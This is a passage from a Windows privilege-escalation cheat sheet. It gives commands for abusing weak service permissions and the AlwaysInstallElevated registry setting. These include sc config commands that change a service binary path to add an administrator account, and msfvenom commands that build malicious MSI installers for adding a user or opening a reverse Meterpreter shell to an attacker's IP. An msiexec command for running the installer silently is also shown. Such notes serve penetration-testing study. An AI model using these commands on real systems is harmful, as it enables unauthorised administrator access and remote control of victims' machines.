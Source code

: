 ```sudo -l (NOTE: lists commands a user can run as root) ```

	Use this command to show the service properties:

	sc qc [service name]

	In order to exploit this misconfiguration, we have to change the BINARY_PATH_NAME on the service and change it to a malicious executable which can be done using these commands:

	sc config [service name] binpath= "malicious executable path"

	sc stop [service name]

	sc start [service name]

	We can also use the binary path to add a new user and grant administrator rights:

	sc config [service name] binpath= "net user admin password /add"

	sc stop [service name]

	sc start [service name]

	sc config [service name] binpath= "net localgroup Administrators admin /add"

	sc stop [service name]

	sc start [service name]

	Metasploit Module to exploit this vulnerability with Metasploit: exploit/windows/local/service_permissions
	
**AlwaysInstallElevated Setting:**

	You can check the values of these registry keys using the following commands:

	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

	When the AlwaysInstallElevated is enabled in the registry entries we can use MSFVenom to create a payload. Use the following command to generate and add user payload:

	msfvenom -p windows/adduser USER=admin PASS=password -f msi -o filename.msi

	Instead of having the payload generate a new user on the system we can also create a reverse shell payload with the following command:

	msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP] LPORT=443 -f msi -o filename.msi

	Finally, run the following command on the target system to execute the msi installer file:

	msiexec /quiet /qn /i C:\Users\filename.msi

	Let’s explain the different flags that we’ve used in this command:

    		The /quiet flag will bypass UAC.
    		The /qn flag specifies to not use a GUI.
    		The /i flag is to perform a regular installation of the referenced package.

	The command will execute the malicious payload and add an administrator user to the system or trigger a reverse shell with system privileges back to the attack box.

```